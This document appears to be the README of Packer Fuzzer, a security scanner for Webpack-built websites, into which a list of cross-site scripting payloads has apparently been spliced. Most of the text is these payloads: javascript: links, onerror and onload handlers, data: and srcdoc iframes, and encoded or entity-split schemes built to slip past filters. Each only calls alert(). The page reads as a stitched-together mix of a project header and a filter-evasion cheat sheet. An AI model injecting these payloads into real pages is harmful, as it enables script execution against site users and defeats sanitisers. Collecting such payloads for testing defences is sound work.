 <h1 align="center" >Packer Fuzzer</h1>

<h3 align="center" >一款针对Webpack等前端打包工具所构造的网站进行快速、高效安全检测的扫描工具</h3>

 <p align="center">
    <a href="https://github.com/rtcatc/Packer-Fuzzer"><img alt="Packer-Fuzzer" src="https://img.shields.io/badge/python-3.X-blueviolet"></a>
    <a href="https://github.com/rtcatc/Packer-Fuzzer"><img alt="Packer-Fuzzer" src="https://img.shields.io/badge/Version-1.4-red"></a>
    <a href="https://github.com/rtcatc/Packer-Fuzzer"><img alt="Packer-Fuzzer" src="https://img.shields.io/badge/LICENSE-GPL-ff69b4"></a>
    <a href="https://github.com/rtcatc/Packer-Fuzzer"><img alt="Packer-Fuzzer" src="https://img.shields.io/github/stars/rtcatc/Packer-Fuzzer.svg"></a>
    <a href="https://github.com/rtcatc/Packer-Fuzzer"><img alt="Packer-Fuzzer" src="https://img.shields.io/badge/Packer-Fuzzer-green"></a>
    <h5 align="center">由Poc-Sir、KpLi0rn、Liucy、RachesseHS、Lupin-III荣誉出品</h5>
    <h5 align="center" ><a href="doc/kiwi/README.en.md">Click here for the English version</a></h5>
 </p>

<a href="javascript:alert(9)" >aaa</a>
 <p align="center">
    <img src="doc/kiwi/demo-terminal.png" alt="DEMO" width="77%" height="77%">
   <img src="xx" onerror=alert(9) />
 </p>
利用 JSONP 回调（需目标存在 JSONP 端点）
    <iframe src="https://api.example.com/jsonp?callback=alert(1)//"></iframe>

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
<iframe src="aaa" onmouseover=alert('xss') /><iframe>
<iframe src="javascript:alert(1)">test</iframe>
<iframe onload="alert('xss');"></iframe>
<iframe onmouseover="alert('xss');"></iframe>
javas%0a%0dcript:alert(1)
<iframe src="aaa" onmouseover=_=alert,_(9) /><iframe>

<iframe src=javasc&NewLine;ript&colon;alert(1)></iframe>
<iframe src=javas&#x09;cript:alert(1)></iframe> //Tab
<iframe src=javas&#x0A;cript:alert(1)></iframe> //回车
<iframe src=javas&#x0D;cript:alert(1)></iframe> //换行
<iframe src=javascript&#x003a;alert(1)></iframe> //编码冒号
   <iframe srcdoc="<svg onload=alert(1);>">

<iframe src=javascript:['xss'].find(alert) />
<iframe src=javascript:alert("xss")></iframe>
<iframe src="javascript:%61%6c%65%72%74%28%22%78%73%73%22%29"></iframe>


<iframe data-v-78b5eb71="" src="javascript:import('data:text/javascript,new Proxy({}, { get: (_, prop) => prop === \'exec\' && alert(1) }).exec')" id="setWatchPreview_iframe"></iframe>


<html>
    <iframe id="myIframe"></iframe>  
    <script>  
        // 使用 JavaScript 动态设置iframe的src  
        document.getElementById('myIframe').src = 'data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E';  
    </script>  
</html>
